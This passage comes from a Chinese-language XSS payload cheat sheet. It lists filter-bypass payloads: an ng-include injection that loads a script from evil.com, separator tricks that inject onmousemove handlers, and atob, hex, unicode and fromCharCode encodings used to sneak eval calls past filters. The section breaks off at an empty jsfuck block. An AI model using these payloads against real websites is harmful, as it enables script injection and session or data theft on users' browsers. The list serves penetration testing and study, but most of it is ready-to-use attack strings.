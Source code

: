 ```
<body><span class="ng-include:'https://evil.com/xss.php?payload=<img/src/onerror=alert(1);>'"></span></body>
```

默认情况下 ng-include 只能引入当前网站的 URL

```
<body><span class="ng-include:'/xss.php?payload=<img/src/onerror=alert(1);>'"></span></body>
```

## ==未归纳==

分隔符绕过，某些分隔符会让后面的字符串变成新的属性，例如：`<input type="text" name="p1" value="xss"> ,:;onmousemove="alert(6)"` ，生成了 `onmousemove=""` 属性

```
xss"> ,:;onmousemove=alert(1);
```

atob 解 Base64 编码绕过

```
<script>eval(atob("YWxlcnQoNik="))</script>
```

尖括号的十六进制编码绕过

```
\\x3cscript\\x3ealert(6);\\x3c/script\\x3e
```

**js 中的编码 `<script></script>` 解码后执行**

ASCII

```
eval(String.fromCharCode(97,108,101,114,116,40,49,41))
```

Base64

```
eval(atob("YWxlcnQoMSk="))
```

**无需解码直接执行**

hex

```
eval("\x61\x6c\x65\x72\x74\x28\x31\x29")
```

unicode

```
\u0061\u006c\u0065\u0072\u0074("\u0031")
```

jsfuck

```
```